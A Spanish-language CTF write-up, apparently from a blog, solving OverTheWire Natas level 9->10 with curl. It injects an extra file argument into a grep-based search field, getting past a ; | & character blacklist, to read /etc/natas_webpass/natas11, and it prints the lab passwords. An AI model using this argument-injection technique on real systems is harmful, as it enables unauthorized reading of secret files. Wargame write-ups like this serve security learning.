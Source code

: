```yaml
---
title: OverTheWire - Natas 9 -> 10 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 9 -> 10 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas10
Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
URL:      http://natas10.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas9->10-1.png)

Vemos que existe un buscado y su código fuente que se almacena en `index-source.html`.

![](/images/images-otw-natas/natas9->10-2.png)

Si vamos al archivo no podremos ver nada.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html
```

![](/images/images-otw-natas/natas9->10-3.png)

Esto se soluciona instalando la herramienta `html2text` con el comando `sudo apt install html2text`.

 ```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html | html2text
 ```

![](/images/images-otw-natas/natas9->10-4.png)

Se está haciendo una lista negra con los carácteres `; | &`, es decir, si escribimos estos carácteres en la búsqueda la página nos dará un error.

![](/images/images-otw-natas/natas9->10-5.png)

Lo que ingresemos en la búsqueda se guardará en la variable `$key` y se agregará al comando grep.

![](/images/images-otw-natas/natas9->10-6.png)

Para resolver este reto y obtener la contraseña primero debemos entender cómo funciona el comando grep.

Tenemos un archivo llamado `archivo1.txt` que tiene la palabra `hola!`.

![](/images/images-otw-natas/natas9->10-7.png)

Y otro archivo llamado `archivo2.txt` que contiene la palabra `chao!`.

![](/images/images-otw-natas/natas9->10-8.png)

Si buscamos la letra `a` con el comando grep sobre ambos archivo obtenemos las palabras enteras, y grep nos indica el nombre del archivo al que pertece cada palabra.

```bash
grep -i a archivo1.txt archivo2.txt
```

![](/images/images-otw-natas/natas9->10-9.png)

Esta parte marcada en rojo es la que nosotros controlamos en la búsqueda de la página.

![](/images/images-otw-natas/natas9->10-10.png)

Si buscamos una letra que no aparece en ningún archivo, entonces no nos mostrará nada. Lo mismo si filtramos una letra que aparece solo en un archivo.

![](/images/images-otw-natas/natas9->10-11.png)

Con esto en mente filtraremos por la letra `a`, y agregaremos el archivo `/etc/natas_webpass/natas11` que contiene la contraseña para el siguiente nivel.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=a /etc/natas_webpass/natas11&submit=hola'
```

![](/images/images-otw-natas/natas9->10-12.png)

Pero lo página nos muestra mucho texto. Enviaremos todo este output hacia un archivo cualquiera con el nombre `natas10.txt`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=a /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/images/images-otw-natas/natas9->10-19.png)

Y ejecutaremos el comando head para observar solo las primeras lineas de la respuesta.

```bash
head -n 30 natas10.txt
```

Notamos que en la respuesta no se encuentra la contraseña de natas11, esto es porque la contraseña no contiene la letra `a`. Seguiremos reemplazando la letra en nuestro comando de curl, hasta que nos devuelva la contraseña.

![](/images/images-otw-natas/natas9->10-14.png)

Realizamos el mismo procedimiento pero cambiamos la letra `a` por una `b`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=b /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/images/images-otw-natas/natas9->10-15.png)

Nuevamente no vemos nada porque lo contraseña de natas11 no contiene la letra `b`.

```bash
head -n 30 natas10.txt
```

![](/images/images-otw-natas/natas9->10-16.png)

Realizamos el mismo procedimiento pero cambiamos la letra `b` por la letra `c`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=c /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/images/images-otw-natas/natas9->10-17.png)

Ejecutamos el comando head y esta vez sí vemos la contraseña de natas11.

```bash
head -n 30 natas10.txt
```

![](/images/images-otw-natas/natas9->10-18.png)


# Contraseña
---

`U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`

---

## [Anterior](/level-8-9)